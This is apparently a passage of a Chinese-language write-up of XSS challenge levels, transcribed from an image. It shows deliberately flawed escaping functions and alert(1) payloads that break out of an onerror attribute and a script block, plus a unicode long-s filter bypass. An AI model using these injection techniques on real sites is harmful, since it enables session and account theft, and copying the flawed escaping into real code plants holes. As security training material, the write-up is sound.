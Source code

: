 屏蔽了<开头的英文字母



古英文

```JavaScript
<ſvg><ſcript>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</ſcript>
```

#### 0x0F

```php
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`
}
```

在onerror=""里面的内容貌似会自动识别字符实体转换

```JavaScript
');alert(1)//
```

#### 0x10

没啥好讲的,加个;结束上个语句然后写别的语句就可以了

```php
function render (input) {
  return `
<script>
  window.data = ${input}
</script>
  `
}
```

```JavaScript
1;alert(1)
```

#### 0x12

```php
// from alf.nu
function escape (s) {
  s = s.replace(/"/g, '\\"')
  return '<script>console.log("' + s + '");</script>'
}
```
